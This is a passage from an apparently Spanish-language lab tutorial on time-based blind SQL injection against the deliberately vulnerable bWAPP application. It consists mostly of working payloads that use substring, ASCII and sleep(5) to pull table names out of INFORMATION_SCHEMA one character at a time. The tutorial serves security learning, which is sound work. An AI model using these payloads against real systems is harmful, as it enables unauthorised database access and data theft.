 ```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),5,1) = 's' AND sleep(5)-- -
```

[![sqlinjectblindsleep15](/images/sqlinjectblindsleep15.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep15.png)


#### Opción ocupando ASCII

```sql
' or 1=1 AND ASCII(substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),1,1)) = 117 AND sleep(5)-- -
```

Si quisieramos buscar otra tabla sería por medio de las siguientes inyecciones (En este caso se busca la tabla "heroes"):

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),1,1) = 'h' AND sleep(5)-- -
```

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 1,1),2,1) = 'e' AND sleep(5)-- -
```
